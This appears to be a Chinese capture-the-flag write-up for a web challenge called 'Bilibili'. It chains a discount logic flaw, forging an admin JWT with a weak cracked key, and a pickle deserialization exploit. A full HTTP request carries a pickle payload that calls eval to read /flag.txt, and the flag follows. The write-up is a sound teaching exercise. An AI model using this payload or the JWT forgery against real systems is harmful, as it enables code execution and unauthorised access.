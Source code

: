 # Bilibili

## 思路分析

> 注册账号,登陆之后购买商品发现存在逻辑漏洞,折扣处可以任意修改.题目提示要购买V6的商品,用脚本翻页,在第181页发现V6的商品,商品价格很高,结合逻辑漏洞购买.购买后来到/b1g_m4mbery页面,提示只有admin用户才能访问.然后发现请求cookie中有个jwt,在https://jwt.io/解码得到明文,把用户名修改为admin,用明文发送得到报错,说明需要密钥.其实直接用c-jwt-crack爆破是比较难的,因为字典中得有这个密钥才行.密钥为1Kun.发送后成功进入,查看网页源代码,得到了网站源码,进行代码审计.

> 审计代码发现,在Admin.py中存在pickle.loads反序列化操作,那就是考察的反序列化漏洞了.用脚本构造数据包得到flag.

## payload

```
POST /b1g_m4mber HTTP/1.1
Host: 61.147.171.105:64223
Content-Length: 173
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:64223
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:64223/b1g_m4mber
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _xsrf=2|f05610cb|c084fb2705429702827c8c000f88f782|1683808730; JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QifQ.l0qG4XbJbemqJXsaITaT8g78fkJ-boRvU2H7H1CY644; commodity_id="2|1:0|10:1683808918|12:commodity_id|8:MTYyNA==|11febe9bb1e0e93ad9a9298f3b09b7d18e5518bfaf0d594587b7139d3b51f4fc"
Connection: close

_xsrf=2%7C075c92d8%7C378e7934f248151175760e13f8827591%7C1683808730&become=c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Atp2%0ARp3%0A.
```

## flag

> flag{dfe54e6fe1e34f1e8fb03c8b50e963bd}

## 参考

> https://jwt.io/